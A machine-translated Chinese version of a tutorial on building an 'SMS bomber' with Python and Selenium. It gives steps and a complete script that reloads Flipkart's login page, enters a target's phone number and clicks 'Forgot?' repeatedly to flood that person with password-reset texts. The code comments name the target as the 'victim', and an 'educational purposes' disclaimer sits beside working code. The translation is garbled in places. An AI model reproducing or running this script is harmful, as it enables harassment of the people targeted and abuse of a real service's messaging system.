


# Python |使用硒元素的短信轰炸机

> 原文:[https://www . geesforgeks . org/python-SMS-轰炸机-使用-selenium/](https://www.geeksforgeeks.org/python-sms-bomber-using-selenium/)

在这里，我们将学习一个简单的短信炸弹技巧(出于娱乐和教育目的)。Selenium 是一个免费的工具，用于跨不同浏览器的自动化测试。在本教程中，我们将学习在给定次数和间隔内自动发送垃圾短信的次数。
**要求:**
需要安装 **chromedriver** 并设置路径。[点击此处](https://sites.google.com/a/chromium.org/chromedriver/downloads)下载。
**下面是步骤:**

*   首先使用这个[链接去 flipkart 网站。](https://www.flipkart.com/account/login?ret=/)
*   然后通过按 ctrl + shift + i 或进入浏览器设置并手动单击检查元素来单击检查元素。
*   然后找到“输入数字”输入框的类名和“忘记了？”链接。我们以后会用到它。

 

*   现在，通过为每个元素输入适当的类名来运行脚本。
*   现在它会自动向你朋友的手机号码发送垃圾短信。

**注意:**本教程仅供教育之用，请不要用它来打扰任何人或任何不道德的方式。
下面是实现:

## 蟒蛇 3

```
from selenium import webdriver
import time

# create instance of Chrome webdriver
browser = webdriver.Chrome()

# set the frequency of sms which is approx maximum to 10 per 24 days
frequency = 10

# target mobile number, change it to victim's number and
# also ensure that it's registered on flipkart
mobile_number ="1234567890"

for i in range(frequency):
    browser.get('https://www.flipkart.com/account/login?ret=/')

    # find the element where we have to
    # enter the number using the class name
    number = browser.find_element_by_xpath('//*[@id="container"]/div/div[3]/div/div[2]/div/form/div[1]/input')

    # automatically type the target number
    number.send_keys("1234567890")

    # find the element to send a forgot password
    # request using it's class name
    forgot = browser.find_element_by_link_text('Forgot?')

    # clicking on that element
    forgot.click()

    # set the interval to send each sms
    time.sleep(2)

# Close the browser
browser.quit()
```